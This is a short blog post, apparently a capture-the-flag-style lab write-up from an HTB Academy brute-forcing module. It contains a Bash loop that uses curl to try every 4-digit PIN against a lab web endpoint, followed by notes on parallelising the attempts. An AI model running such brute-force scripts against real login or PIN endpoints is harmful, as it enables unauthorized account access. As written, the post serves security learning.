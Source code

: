 ```yaml
---
layout: post
title:  "Bruteforcing a PIN using Bash"
tags: Scripting Bash
---
```


# Preface

This is a part of HTB Academy's "Login Brute Forcing" Module. The premise is to find a 4 digit PIN and submit the correct one to `http://$IP:$PORT/pin?pin=$PIN`. A python script is provided to automate the process for you, but I decided to write it in Bash to test my skills.

# Code

Here is the code I used if you just wanted to look at it:

```sh
  for pin in $(seq -w $1 9999);
  do
    response=$(curl -s -w "%{http_code}" -o /dev/null http://83.136.253.59:56861/pin?pin=$pin)
    if [ "$response" = "200" ]; then
      echo "Found the correct PIN! It is $pin"
    fi
  done
```

(The IP included here will 99% won't work, change it to whichever one is provided if you're doing it along with the article)

# Usage and Things I've Learned

As for the usage, I didn't want a single process trying all 10,000 combinations, so I kinda did an esoteric thing, which was to do a bunch of `./script.sh 0 & ./script.sh 1000` and so forth. Writing this article now, I realized that they will all try the combinations so I should've set the ending parameter as well, but this is why we do these things.

Another thing I discovered is that I can use GNU's `parallel` to more easily create multiple processes, which will be useful for future times where I'll need to run a script with multiple processes (which there will be plenty of opportunities to do so, I'm sure). I only found out about it after the fact as I quickly realized how surely inefficient my method of creating multiple processes is. I'll definitely be incorporating it into my future scripts when the occassion arises to speed things up.
